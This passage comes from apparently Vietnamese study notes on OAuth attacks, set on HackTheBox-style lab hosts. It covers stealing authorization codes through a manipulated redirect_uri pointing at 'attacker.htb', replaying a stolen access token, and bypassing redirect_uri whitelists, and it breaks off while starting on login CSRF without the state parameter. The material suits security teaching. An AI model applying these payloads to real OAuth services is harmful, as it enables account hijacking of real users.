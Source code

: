 7. **Giả mạo người dùng**: Kẻ tấn công sử dụng access token thu được để giả mạo nạn nhân và thực hiện các hành động thay mặt nạn nhân.

   Ví dụ yêu cầu dữ liệu người dùng với access token:
   ```
   GET /client/ HTTP/1.1
   Host: academy.htb
   Cookie: access_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
   ```

### Ví Dụ Tấn Công:
1. Kẻ tấn công tạo liên kết tấn công như sau:
   ```
   http://hubgit.htb/authorization/auth?response_type=code&client_id=0e8f12335b0bf225&redirect_uri=http://attacker.htb/callback&state=somevalue
   ```
2. Kẻ tấn công gửi liên kết này cho nạn nhân.
3. Sau khi nạn nhân đăng nhập, thay vì nhận lại một mã ủy quyền tại URL hợp lệ, mã ủy quyền sẽ được gửi về máy chủ tấn công (`http://attacker.htb/callback`).
4. Kẻ tấn công thu thập mã ủy quyền từ logs.
5. Kẻ tấn công sử dụng mã ủy quyền để lấy token truy cập hợp lệ, từ đó có thể impersonate (giả mạo) người dùng và truy cập tài nguyên của họ.

### Bỏ Qua Kiểm Tra Lỗi:
Trong nhiều ứng dụng OAuth thực tế, việc kiểm tra `redirect_uri` có thể được thực hiện bằng cách sử dụng whitelist để chỉ cho phép một số URL nhất định. Tuy nhiên, nếu kiểm tra này không cẩn thận, kẻ tấn công có thể dễ dàng vượt qua bằng các phương thức như:
- Thay đổi subdomain: `http://academy.htb.attacker.htb/callback`
- Sử dụng Basic Authentication Credentials: `http://[email protected]/callback`
- Thêm query parameters: `http://attacker.htb/callback?a=http://academy.htb`
- Thêm URL fragments: `http://attacker.htb/callback#http://academy.htb`

Với các cách này, kẻ tấn công có thể dễ dàng vượt qua được cơ chế kiểm tra và thực hiện tấn công như trên.

---
# 3. Giải thích về "Improper CSRF Protection" trong OAuth

Trong OAuth, tham số `state` là một phần quan trọng trong việc bảo vệ chống lại các cuộc tấn công Cross-Site Request Forgery (CSRF). Khi tham số `state` không có hoặc không được kiểm tra đúng cách, kẻ tấn công có thể lợi dụng lỗ hổng này để thực hiện tấn công CSRF.

### Tấn công CSRF không có tham số `state`
Nếu trong một triển khai OAuth, tham số `state` bị thiếu hoặc không được sử dụng, kẻ tấn công có thể thực hiện một cuộc tấn công đăng nhập CSRF. Mục tiêu của cuộc tấn công này là lừa nạn nhân đăng nhập vào tài khoản của kẻ tấn công mà không biết.

#### Ví dụ:
1. **Kẻ tấn công thu thập mã ủy quyền (authorization code):** Kẻ tấn công gửi yêu cầu ủy quyền OAuth và đăng nhập bằng thông tin tài khoản của mình. Sau đó, kẻ tấn công nhận được mã ủy quyền hợp lệ cho tài khoản của mình.
   